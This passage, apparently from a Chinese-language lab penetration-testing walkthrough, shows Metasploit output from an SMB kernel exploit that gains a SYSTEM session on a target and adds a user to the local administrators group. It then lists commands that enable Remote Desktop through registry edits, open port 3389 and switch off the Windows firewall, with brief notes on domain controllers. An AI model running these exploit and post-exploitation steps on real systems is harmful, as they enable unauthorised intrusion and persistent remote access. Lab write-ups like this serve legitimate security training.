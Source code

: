 ```
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x87a26cc8
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "net localgroup administrators /add god\perry":

The command completed successfully.



[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```



启用远程桌面

> netstat -ano | findstr "3389"						# 查看端口3389是否开启
> REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber		# 查看远程端口
> REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f	# 开启3389端口
> netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow	# 允许 3389 端口放行
> netsh firewall set opmode disable					# Windows Server 2003 系统及之前版本
> netsh advfirewall set allprofiles state off			# Windows Server 2003 之后系统版本

剩下略，参考"远程登陆-启用远程桌面-MSF部分"



**域控渗透方法域上述基本一致，~~省略~~ **

需要注意的是，域控通过策略组禁用了远程桌面，方法会有点不一样。

当然，不建议进行以下操作，毕竟在实际环境中并碰不到域控。

> 计算机配置 —> 管理模板 —> Windows组件 —> 远程桌面服务 —> 远程桌面会话主机 —> 连接，允许用户通过使用远程桌面服务进行远程连接
